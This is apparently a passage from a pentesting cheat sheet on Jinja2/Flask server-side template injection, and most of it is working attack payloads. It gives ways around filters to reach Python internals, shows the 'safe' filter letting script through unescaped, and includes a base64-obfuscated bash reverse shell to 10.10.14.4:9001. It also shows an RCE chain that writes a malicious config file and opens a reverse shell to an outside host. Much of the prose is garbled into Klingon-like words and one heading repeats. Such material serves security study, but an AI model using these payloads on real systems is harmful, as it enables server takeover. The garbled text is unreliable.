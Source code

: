 ```bash
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

## Using request object options
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params

## Lists without "[" and "]"
http://localhost:5000/?c={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

# Using with

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
{% endraw %}
```
* [**Qa'chuqDaq 'ejwI'vam vItlhutlh**](jinja2-ssti.md#accessing-global-objects)
* [**Qa'chuqDaq 'ejwI'vam vItlhutlh**](jinja2-ssti.md#recovering-less-than-class-object-greater-than)
* [**Qa'chuqDaq RCE laH jInja injection**](jinja2-ssti.md#jinja-injection-without-less-than-class-object-greater-than)

**HTML encoding vItlhutlh**

Flask vItlhutlh HTML encode DaH jInja template for security reasons:
```python
{{'<script>alert(1);</script>'}}
#will be
&lt;script&gt;alert(1);&lt;/script&gt;
```
**The `safe`** filter allows us to inject JavaScript and HTML into the page **without** it being **HTML encoded**, like this:
```python
{{'<script>alert(1);</script>'|safe}}
#will be
<script>alert(1);</script>
```
**RCE by writing an evil config file.**

**RCE by writing an evil config file.**
```python
# evil config
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
## bImej
